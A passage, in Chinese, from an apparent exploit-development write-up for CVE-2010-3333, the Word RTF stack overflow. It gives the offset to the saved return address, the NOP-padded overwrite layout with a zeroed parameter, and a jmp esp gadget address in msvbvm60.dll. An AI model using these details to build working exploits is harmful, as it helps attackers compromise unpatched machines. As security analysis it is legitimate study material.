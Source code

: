 a6=0 导致 result=0 程序会快速返回

### 覆盖返回地址

覆盖数据时 EDI到EBP的距离时10h

```
90909090909090909090909090909090
```

![image-20220719181225848](cve-2010-3333.assets/image-20220719181225848.png)

a6是sub_30F0B5C2函数传入的在EBP下的第5个参数 为了让a6 = 0 我们需要将到EBP+4*5后面4个字节覆盖成0

![image-20220719181322580](cve-2010-3333.assets/image-20220719181322580.png)

```
90909090909090909090909090909090+EBP+EIP+9090909090909090909090909090909000000000
```

寻找jmp esp

这里利用msvbvm60.dll中的7344745D 

![image-20220719191528017](cve-2010-3333.assets/image-20220719191528017.png)
